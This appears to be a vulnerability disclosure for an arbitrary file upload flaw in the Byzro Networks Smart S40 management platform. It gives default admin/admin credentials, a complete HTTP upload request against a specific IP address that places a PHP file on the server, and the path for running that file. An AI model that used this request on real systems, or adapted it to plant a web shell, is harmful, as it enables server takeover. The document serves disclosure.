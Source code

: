 There is a file upload vulnerability in Byzro Networks Smart S40 management platform

Vulnerability impact:S40

Vulnerability location:/useratte/userattestation.php

The code enters the hidwel branch, and the uploaded files in lines 125 and 126 of the code do not have any suffix restrictions, causing arbitrary files to be uploaded.
![image](https://github.com/cqliuke/cve/assets/123135436/dea62da7-1b34-4068-93bb-519dbb453b72)


1. The login interface is as shown in the figure.
admin/admin
![image](https://github.com/cqliuke/cve/assets/123135436/eb99f56d-ab2c-4a18-852d-30b1b916c8b7)


2. Construct a POC and directly upload the 1.php file.

POC
```
POST /useratte/userattestation.php HTTP/1.1
Host: 221.178.130.210:8443
Cookie: PHPSESSID=c618a82c2797b87cf6fceebb4ed5b678
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 592
Origin: https://221.178.130.210:8443
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="web_img"; filename="1.php"
Content-Type: application/octet-stream

<?php echo 1234;?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hidwel"

set
-----------------------------42328904123665875270630079328?
```
![image](https://github.com/cqliuke/cve/assets/123135436/8f5589cd-8047-4c4f-afea-b2ab7ef1a550)

3. Visit /boot/web/upload/weblogo/1.php
![image](https://github.com/cqliuke/cve/assets/123135436/9cd182ef-0e8a-438a-87c4-fa9784e427e6)

   
